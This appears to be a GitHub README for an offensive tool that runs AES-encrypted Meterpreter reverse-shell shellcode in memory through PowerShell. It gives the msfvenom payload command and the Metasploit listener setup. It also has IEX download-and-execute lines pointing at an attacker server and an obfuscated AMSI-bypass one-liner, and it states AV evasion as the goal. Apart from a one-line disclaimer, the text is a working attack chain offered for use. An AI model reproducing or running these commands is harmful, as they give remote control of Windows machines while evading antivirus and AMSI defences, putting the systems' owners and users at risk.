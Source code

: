 # PowerShell Shellcode Runner with AES-256 Encryption

## Overview
This project demonstrates how to encrypt a shellcode (revshell) payload using **AES-256 CBC encryption** for execution within a **PowerShell script**. The encryption process enhances evasion techniques to **_<u>bypass AV</u>_** by encoding the payload before execution.

## Steps

### 1. Generate the Shellcode
Use `msfvenom` to generate a reverse shell payload in raw format:

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f raw > shellcode.bin
```

---

### 2. Encrypt the Payload
- Use the provided **Python encryption script** (`AES_encrypt.py`) to **AES-256 encrypt** the shellcode with a static key.
- The script applies **PKCS7 padding** and encodes the payload in **Base64**.

Run the script:

```sh
python3 AES_encrypt.py
```

After execution, the **Base64-encoded encrypted shellcode** will be printed and saved to `encrypted_shellcode.txt`.

---

### 3. Embed the Encrypted Payload in PowerShell
- Open `run.ps1`
- Replace `<PASTE THE BASE64 ENCRYPTED PAYLOAD HERE>` with the generated encrypted shellcode from **Step 2**.
- The PowerShell script includes:
  - **AMSI bypass** to avoid detection
  - **AES-256 decryption** of the payload
  - **Memory execution of shellcode** without writing to disk

---

### 4. Setup Metasploit Listener
Start Metasploit and configure the **multi-handler**:

```sh
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST=<YOUR_IP>; set LPORT=<PORT>; exploit"
```

---

### 5. Execute the PowerShell Script
To **execute the payload locally**, run:

```powershell
powershell -ExecutionPolicy Bypass -NoProfile -File runner.ps1
```

To **execute remotely**, use:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://YOUR_SERVER_IP/runner.ps1")
```

If **blocked by AV**, use an **AMSI bypass**:

```powershell
powershell -ExecutionPolicy Bypass -NoProfile -Command "$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344); IEX (New-Object Net.WebClient).DownloadString('http://YOUR_SERVER_IP/run.ps1')"
```

---

## Disclaimer
This project is intended for **educational and authorized penetration testing purposes only**. Unauthorized use is **strictly prohibited**.
